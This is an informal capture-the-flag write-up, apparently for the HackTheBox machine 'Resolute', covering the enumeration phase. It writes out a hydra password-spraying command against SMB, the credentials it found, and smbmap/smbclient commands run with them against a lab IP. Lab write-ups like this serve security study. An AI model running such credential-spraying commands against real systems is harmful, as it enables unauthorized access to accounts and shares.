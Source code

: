 # Resolute
## Enumeration

enum4linux gave us some interesting things:
	- Some users
	- A password for marko : Welcome123!

I tried to connect as marko with the password and it was a fail 

So i decide to try with hydra to try every user with the password.
	hydra -L names.txt -P password.txt 10.10.10.169 smb

[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!

so i can connect and enum as melanie with smbclient - smbmap
	smbmap -u melanie -H 10.10.10.169 -p Welcome123!
	smbclient //10.10.10.169/SYSVOL -U melanie -p

